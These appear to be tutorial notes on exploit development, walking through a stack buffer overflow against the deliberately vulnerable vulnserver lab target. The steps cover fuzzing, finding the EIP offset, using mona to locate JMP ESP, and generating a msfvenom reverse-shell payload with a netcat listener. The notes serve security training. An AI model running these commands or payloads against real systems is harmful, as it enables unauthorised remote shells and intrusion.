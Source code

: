 # Exploit Development

## Downloading Our Materials

- victim machine: [vulnserver](https://github.com/stephenbradshaw/vulnserver) on windows 10.
- immunity debugger

## Buffer Overflows Explained

### Memory

- Kernel TOP
- Stack
- Heap
- Data
- Text BOTTOM

### Stack

- Extended Stack Pointer ESP - TOP
- Buffer Space
- Extended Base Pointer EBP - BOTTOM
- Extended Instruction Pointer EIP / Return Address

### Buffer

Buffer has a limited space, if you overflows it, you reach the EBP and EIP. Once in EIP, we can point to directions with malicious code to have a reverse shell.

## Spiking

Find a vulnerable part in a program.

- First, disable your windows protection.
- run vulnserver and immunity as an admin.
- in immunity, go to file and attach, hit play.
- in kali, run `nc -nv your-windows-ip 9999`, you should connect to vulnserver
- we test all the commands with weird characters `generic_send_tcp your-windows-ip 9999 stats.spk 0 0` ([see stats.spk](/13-exploit-development/stats.spk))
- same with `generic_send_tcp your-windows-ip 9999 trunk.spk 0 0` ([see trunk.spk](/13-exploit-development/trunk.spk)), now we're overflowing. Immunity pauses before the server crashes.

## Fuzzing

Send some characters to a specific command to see if we can break a program.

Like before, we're overflowing TRUN with As, but we want to know when we reach the limit.

- Make your python script executable `chmod +x fuzz.py` ([see fuzz.py](/13-exploit-development/fuzz.py))
- Run `./fuzz.py`
- We crashed at 2700 bytes.

## Finding the Offset

So that we can target the EIP.

- generate some code to send with `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000`, length is 3000 because it's more or less where we crashed.
- Make your python script executable `chmod +x offset.py` ([see offset.py](/13-exploit-development/offset.py))
- Run `./offset.py`, we're above the target, note down what you have for EIP in immunity: `386F4337`

- generate some code to send with `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000 -q 386F4337`: exact match at offset 2003.

## Overwriting the EIP

- `shellcode = b"A" * 2003 + b"B" * 4` so that we overwrite the EIP with Bs.
- Make your python script executable `chmod +x overwrite.py` ([see overwrite.py](/13-exploit-development/overwrite.py))
- Run `./overwrite.py`, now EIP is 42424242, as we wanted, now we control the EIP.

## Finding Bad Characters

- we can use https://github.com/cytopia/badchars, copy one of the examples provided, to test characters on the program
- Make your python script executable `chmod +x badchars.py` ([see badchars.py](/13-exploit-development/badchars.py))
- Run `./badchars.py`
- in immunity, right click on ESP and follow in dump, we go through all the hex codes, from 01 to FF, everything seems in place in our case (it's an eye test: write down all the missing characters). If you have 2 bad characters in a row (B0), only worry about the first one.

## Finding the Right Module

Look for dll or something similar without memory protection in our program.

- we'll use https://github.com/corelan/mona, put `mona.py` in immunity folder called `PyCommands`
- type `!mona modules` in immunity command bar and hit enter
- we look for vulnserver modules with protections on false: `essfunc.dll` looks promising.
- in kali, `locate nasm_shell`, copy the ruby file.
- run `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb`
- `JMP ESP`, we jump to ESP, equivalent is FFE4, `exit`
- back to immunity, we enter `mona find -s "\xff\xe4" -m essfunc.dll`, we get the return address of the vulnerable dll.
- we edit our python code to target the vulnerable dll as EIP. We enter the return address in reverse 625011af becomes `"\xaf\x11\x50\x62"` (low bytes at the lowest address, high bytes at the highest address)

- in immunity, enter expression to follow: 625011af, we should find ffe4 (jmp esp), hit f2 to set a breakpoint on it.
- Make your python script executable `chmod +x jump.py` ([see jump.py](/13-exploit-development/jump.py))
- Run `./jump.py`

## Generating Shellcode and Gaining Root

- run `msfvenom -p windows/shell_reverse_tcp LHOST=your-kali-ip LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"`, -p is payload, -f for filetype is in C, -a for architecture, -b for bad characters
- copy the result, check the payload size.
- in `shellcode.py`, we add the overflow, plus a little bit of padding with `"\x90" + 32` (NOP sled to help with the reliability of the exploit).
- open the listening port: `nc -nlvp 4444`
- Make your python script executable `chmod +x shellcode.py` ([see shellcode.py](/13-exploit-development/shellcode.py))
- Run `./shellcode.py`, now you got a shell on vulnserver.

## Python3 and More

- create a folder called mona, then in immunity: `!mona config -set workingfolder c:\mona`
- for bad characters: `!mona bytearray -cpb "\x00"`
- `!mona compare -f c:\mona\bytearray.bin -a 010AF9C8`
- `!mona jmp -r ESP -m "essfunc.dll"`

